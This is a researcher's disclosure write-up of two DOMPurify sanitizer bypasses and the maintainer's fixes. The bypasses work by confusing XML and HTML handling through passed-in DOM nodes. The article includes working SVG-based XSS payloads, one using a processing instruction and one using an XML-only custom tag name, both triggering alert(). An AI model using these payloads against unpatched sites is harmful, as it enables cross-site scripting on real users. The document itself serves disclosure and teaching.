

DOM Purify - untrusted Node bypass
The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.
Introduction
In this article, I aim to elucidate a deficiency in the implementation of DOMPurify that I recently uncovered. While it may not pertain to the most common use cases of this library, I found it to be a compelling discovery worthy of exploration.
Purify strings nodes
In most scenarios, when utilizing the library, a string is passed to the sanitize function:
DOMPurify.sanitize("<a href='https://x.com/slonser_'>slonser</a>")
// output: <a href="https://x.com/slonser_">slonser</a>
However, there exists a less common yet notable capability - passing an HTML Node as an argument to the function:
let a_element = document.createElement("a")
a_element.href="https://x.com/slonser_"
DOMPurify.sanitize(a_element)
// output: <a href="https://x.com/slonser_">slonser</a>
I recently encountered such usage of the library. Let’s consider a simplified example:
function pastUserFrame(user_link){
let frame = document.createElement('iframe');
frame.sandbox='allow-same-origin'
frame.id='frame'
frame.src=user_link
document.body.appendChild(frame);
}
function validateOnClick(){
let box = document.createElement('div')
box.class='user-input'
let button = frame.contentDocument.documentElement;
box.appendChild(button)
user_container.innerHTML = DOMPurify.sanitize(box)
}
On this website, we have the capability to upload files and access them via a link. Unfortunately, all these links are subjected to a Content Security Policy (CSP) that prevents XSS exploitation. However, we have the ability to embed a tag from this document onto a page with a weaker CSP.
You can’t get XSS…
The truth is, the parsing process itself doesn’t differ. If we look at the code, the only distinction is that we don’t need to first convert the string into a Node, because it already is one. So, the process cannot be circumvented unless we find a way to bypass DOMPurify’s filtering in general cases.
else if (dirty instanceof Node) {
/* If dirty is a DOM element, append to an empty document to avoid
elements being stripped by the parser */
body = _initDocument('<!---->');
importedNode = body.ownerDocument.importNode(dirty, true);
if (importedNode.nodeType === 1 && importedNode.nodeName === 'BODY') {
/* Node is already a body, use as is */
body = importedNode;
} else if (importedNode.nodeName === 'HTML') {
body = importedNode;
} else {
// eslint-disable-next-line unicorn/prefer-dom-node-append
body.appendChild(importedNode);
}
}
Confusion…
Therefore, I decided to think differently. If I don’t want to bypass the parser, what unexpected behavior can I trigger? After some thought, I realized that confusion between HTML and XML contexts could help achieve XSS.
If I were to elaborate on my thought, the issue lies in the fact that an XML Node can be a child element of HTML Node, and I immediately assumed that this could create problems.
I tested by uploading a simple SVG file to the server and inserting its link into the function call. svg.svg
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><circle></circle></svg>
After that, we can verify that the object was successfully transferred into the HTML tree. 
And what?
Yes, we can indeed insert an XML node into HTML, but that alone doesn’t give us the opportunity to obtain XSS. What’s next? We should look for differences between XML and HTML!
And at that moment, I remembered that in XML there exists a concept called Processing Instructions, whereas in HTML it is absent.
Processing Instructions in XML are special markup constructs used to convey instructions to applications that process XML documents. They are typically used to provide information about how the XML document should be processed or interpreted, rather than representing data or content within the document itself.
Processing Instructions are structured as follows:
<?target instructions?>
Purify instructions?
I immediately decided to see how DOMPurify handles Processing Instructions.
DOMPurify.sanitize("<?xml-stylesheet src='slonser' ?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
// output: <?xml-stylesheet src='slonser' ?>
So, Process Instructions are not removed, but why? Let’s check the source code:
const _createNodeIterator = function _createNodeIterator(root) {
return createNodeIterator.call(root.ownerDocument || root, root,
// eslint-disable-next-line no-bitwise
NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
};
_createNodeIterator is a function that traverses the DOM tree objects, used for sanitizing elements. As a matter of fact, the following filters are passed to it: NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, but in order for the iterator to return Process instructions, the filter NodeFilter.SHOW_PROCESSING_INSTRUCTION must be enabled.
Processing Instructions in HTML?
Let’s pass the following file via link to the application we are examining:
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><?slonser href="C4T BuT S4D"?> </svg>
 We will see that our instruction has turned into a comment. So, have we lost?
We will see that our instruction has turned into a comment. So, have we lost?
No. If you look closely, you will notice that in XML, the closing delimiter will be ?>, whereas the HTML parser in the browser will search for > until the end of the comment.
Now let’s upload the next file:
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slonser" xmlns="http://www.w3.org/2000/svg"><?xml-stylesheet > <img src=x onerror="alert('DOMPurify bypassed!!!')"> ?></svg>
And we will see a popup alert! while the structure of the DOM tree will look like this:

First Fix
On the same day, I wrote to the project maintainer, and he almost instantly pushed the fix. (I think if there was a prize for the fastest fix, he would win it.):
- NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
+ NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
As you can see now, NodeFilter also check Process Instructions, and now they are removed. But does this completely fix the problem at its core?
Custom configuration
Yes, this does indeed solve the issue in the standard configuration, but what about when the user extends the standard configuration? For example:
DOMPurify.sanitize(box, {CUSTOM_ELEMENT_HANDLING: {
tagNameCheck: /-foo-bar$/,
allowCustomizedBuiltInElements: true,
}
})
This configuration allows any custom tags ending with -foo-bar.
In such a configuration, the problem will still persist. But why?
The issue lies in the fact that XML and HTML have different requirements for tag names.
While the tag <_slonser-foo-bar> will be valid in XML, it won’t be recognized as a tag in HTML.
So let’s test this file with extended configuration:
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><_slonser-foo-bar data-slonser='<iframe/src=javascript:alert()>'></_slonser-foo-bar>
We will see the alert again, and the structure of the DOM tree will look like this:

Second Fix
The next day, a fix was introduced for this issue. It involves checking the customElement name with a special regular expression:
export const CUSTOM_ELEMENT = seal(/^[a-z][a-z\d]*(-[a-z\d]+)+$/i);
...
return tagName !== 'annotation-xml' && stringMatch(tagName, CUSTOM_ELEMENT);
Conclusion
At the end of the article, I want to express gratitude to mario of cure53 for the quick resolution of the issue. I hope you enjoyed my article and learned a bit more about the differences between HTML and XML.